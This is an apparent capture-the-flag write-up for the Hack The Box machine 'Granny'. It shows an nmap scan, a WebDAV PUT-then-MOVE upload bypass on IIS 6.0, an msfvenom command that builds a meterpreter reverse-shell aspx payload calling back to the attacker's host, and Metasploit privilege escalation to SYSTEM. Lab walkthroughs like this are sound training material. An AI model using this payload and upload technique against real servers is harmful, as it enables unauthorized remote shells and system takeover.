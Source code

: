 ```yaml
---
"title": "Hack The Box - Granny"
"date": 2020-03-07
"tags": ["windows", "easy", "isi", "put"]
"keywords": ["windows", "easy", "isi", "put"]
"author": "Ghostbyt3"
"description": "We are going to pwn Granny from Hack The Box."
"featured_image": "/img/htb-granny/1.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "Writeup"
---
```



![Untitled](/img/htb-granny/1.png)

We are going to pwn Granny from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/14](https://www.hackthebox.eu/home/machines/profile/14)


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
| http-ntlm-info: 
|   Target_Name: GRANNY
|   NetBIOS_Domain_Name: GRANNY
|   NetBIOS_Computer_Name: GRANNY
|   DNS_Domain_Name: granny
|   DNS_Computer_Name: granny
|_  Product_Version: 5.2.3790
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Date: Sat, 07 Mar 2020 04:33:20 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/6.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  WebDAV type: Unknown
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP|2000 (92%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows Server 2003 SP1 or SP2 (92%), Microsoft Windows Server 2008 Enterprise SP2 (90%), Microsoft Windows Server 2003 SP2 (90%), Microsoft Windows XP SP3 (90%), Microsoft Windows 2003 SP2 (89%), Microsoft Windows XP (87%), Microsoft Windows Server 2003 SP1 - SP2 (86%), Microsoft Windows 2000 SP4 (85%), Microsoft Windows XP SP2 or Windows Server 2003 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## HTTP:

The webpage is running as ``ISI 6.0`` from Nmap results. Like [Grandpa](https://0xw0lf.github.io//posts/HTB-Grandpa).[br/](br/)
![Untitled](/img/htb-granny/2.png)

The Nmap ``webdav-scan`` revealed that we have ``PUT`` options. I tried ``davtest``.
![Untitled](/img/htb-granny/3.png)

I opened one of the ``PUT`` link to see whats going.I captured the burp request.
![Untitled](/img/htb-granny/4.png)
We need to know the file extension to upload to get reverse shell.And it is Powered by ``ASP.NET`` so our payload must be in ``.asp or .aspx``.

Now we need create a payload and ``PUT`` to the website.
I used ``msfvenom`` for creating payload

>msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.22 LPORT=1234 -f aspx

![Untitled](/img/htb-granny/5.png)

We I tried uploading the payload but I got ``403 Forbidden``.
![Untitled](/img/htb-granny/6.png)

We know the website have lot of ``Allowed Methods`` so I checked what ``MOVE`` will do?
![Untitled](/img/htb-granny/7.png)

Since ``.aspx`` is not allowed to upload we can upload someother file and change the extension back to ``.aspx``.

I used ``.html`` to upload the same payload, now we can use ``Move`` to change its extension.
![Untitled](/img/htb-granny/8.png)

``201 Created`` It worked, Extension changed.
![Untitled](/img/htb-granny/9.png)

Started my Listener in ``Msfconsole`` [br/](br/)
![Untitled](/img/htb-granny/10.png)

## Privilege Escalation:

We can try try ``local_exploit_suggester`` before that, need to ``migrate`` process inorder to make it stable. So I won't face any errors while using any exploit.
![Untitled](/img/htb-granny/11.png)

Let's background this session and Use ``local_exploit_suggester``
![Untitled](/img/htb-granny/13.png)

So it's like [Grandpa](https://0xw0lf.github.io//posts/HTB-Grandpa) Box, same exploits.
I used the same ``windows/local/ppr_flatten_rec``
![Untitled](/img/htb-granny/14.png)

Got NT AUTHORITY\SYSTEM



